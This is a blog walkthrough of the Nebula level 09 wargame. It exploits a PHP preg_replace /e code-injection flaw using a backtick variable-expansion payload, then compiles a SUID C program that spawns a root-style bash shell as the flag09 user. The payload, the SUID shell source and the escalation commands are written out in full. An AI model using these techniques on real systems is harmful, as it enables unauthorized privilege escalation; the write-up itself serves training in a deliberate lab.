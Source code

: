 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 09"
date: 2011-12-10T05:46:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - injection
 - hacking
---
```


Challenge 09 gave me the most issues out of any other challenge so far.  This may just be because I haven't touched PHP since version 3 was just coming out.  However, it is based on a dangerous function, known as [preg_replace()](http://php.net/manual/en/function.preg-replace.php).  There are several more dangerous functions, some of which can be seen [here](http://stackoverflow.com/questions/3115559/exploitable-php-functions). 
The challenge starts by giving us the source code of the program we will be exploiting. 

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

What I noticed immediately, was that the program accepted 2 arguments, but never used the second one, other than to pass it into the "markup" function as "$use_me".  This seemed odd, so I figured it had to do something with that.  I also thought at first that the "spam" function was never being called, but then noticed it in quotes on the first line of "preg_replace" statements.  I had to look this function up, and find out that it would evaluate the code at run-time.  This means that I needed to inject code into that call to "spam()". 

I tried doing some basic injection to try to get something equivelent to it calling: 

```
spam("");system("/bin/bash");print("");
```

However this never worked, because of the [PCRE modifiers](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) built into PHP.  They automatically will escape single and double quotes, as well as backticks (at least according to the docs).  I spent <b>hours</b> trying to inject various strings to get some sort of code execution. 

Somewhere along the line, I read a page (sorry I can't seem to find it again) where they mentioned using an alternative syntax to the backreferences in preg_replace.  So instead of using \\2, you could use ${2}.  This is covered slightly on the [preg_replace](http://php.net/manual/en/function.preg-replace.php) php function reference.  What that reference doesn't show, is that you can apparently have that not just reference parameters, but any variable in the code.  After tinkering a while, I settled on a pattern.  I created a file named, /tmp/level09.txt 

```
[email {${`$use_me`}}]
```

Firstly, I had to start with "[email " and end with "]" to get it into this regex at all.  Because of the PCRE modifiers, I used back-ticks, because in researching them, I ran across a [blog post](http://www.madirish.net/node/437) saying that back-ticks were able to bypass them somehow.  So with variable expansion, and the PCRE modifier bypass, this should let me inject some code into the function. 

Because running a "system()" or "exec()" method in the php caused me problems with interactivity, I opted to use commands that required no interaction at run-time.  I again used my /tmp/bash_id.c file from challenge 07: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

I then would call the compiled SUID version of the php file with 2 parameters.  The first would be the text file I wanted to parse, and the second would be the commands I wanted to run, which would get inserted into the $use_me variable. 


```
level09@nebula:/home/flag09$ ./flag09 /tmp/level09.txt "gcc -o /home/flag09/bash_id /tmp/bash_id.c;chmod +s,a+rwx /home/flag09/bash_id"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1
```

This compiled my bash_id.c source file to the flag09 user's home directory, and marked it SUID.  I ignored the PHP Notice, since I knew I was tinkering. 

After making sure the bash_id program did get created properly, I just needed to call it with the userid of flag09 as the first parameter. 

```
level09@nebula:/home/flag09$ ./bash_id `cat /etc/passwd | grep flag09 | cut -d : -f 3`
flag09@nebula:/home/flag09$ getflag
You have successfully executed getflag on a target account
```

This apparently worked, so I ran the "getflag" command as usual, marking completion of this challenge.  This was by far the most guessing I've had to do on any of the challenges so far.  I really hope that I don't get stuck soon, leaving me unable to continue on.
